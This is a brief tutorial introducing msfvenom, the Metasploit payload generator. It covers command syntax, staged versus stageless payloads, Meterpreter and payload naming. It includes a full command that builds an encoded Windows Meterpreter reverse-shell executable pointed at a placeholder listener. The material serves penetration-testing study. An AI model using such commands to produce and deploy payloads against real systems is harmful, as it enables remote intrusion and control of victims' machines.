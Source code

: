 **msfvenom Overview:**

**msfvenom**, part of the Metasploit framework, is a powerful tool used for generating payloads, primarily for reverse and bind shells. It is extensively utilized in lower-level exploit development, producing hexadecimal shellcode for exploits like Buffer Overflows. Beyond hexadecimal shellcode, msfvenom can generate payloads in various formats, such as .exe, .aspx, .war, .py.

**Standard Syntax:**
```bash
msfvenom -p <PAYLOAD> <OPTIONS>
```

**Example:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

- `-p <PAYLOAD>`: Specifies the payload.
- `-f <format>`: Specifies the output format.
- `-o <file>`: Specifies the output location and filename for the generated payload.
- `LHOST=<IP>`: Specifies the IP to connect back to.
- `LPORT=<port>`: Specifies the port on the local machine to connect back to.

**Staged vs. Stageless:**
- **Staged Payloads:** Sent in two parts – a stager and the actual payload. Stager connects to the listener and loads the real payload, preventing it from touching the disk.
- **Stageless Payloads:** Entirely self-contained. One piece of code sends a shell back immediately to the waiting listener.

**Meterpreter:**
- Metasploit's fully-featured shell.
- Stable and offers inbuilt functionality like file uploads and downloads.
- Commonly used with Windows targets.

**Payload Naming Conventions:**
- `<OS>/<arch>/<payload>`
  - Example: `linux/x86/shell_reverse_tcp` for a stageless reverse shell on x86 Linux.
- Exception: Windows 32bit targets, where the arch is not specified.
  - Example: `windows/shell_reverse_tcp`.
- Naming for Meterpreter payloads follows the same convention with the addition of "meterpreter."
  - Example: `windows/x64/meterpreter/reverse_tcp`.

**Listing Available Payloads:**
```bash
msfvenom --list payloads | grep linux/x86/meterpreter
```
- Lists available payloads.
- Example: Lists all Linux Meterpreter payloads for 32bit targets.

**Note:** msfvenom is a versatile tool, and there is much more to explore beyond this brief introduction. It plays a crucial role in exploit development and penetration testing.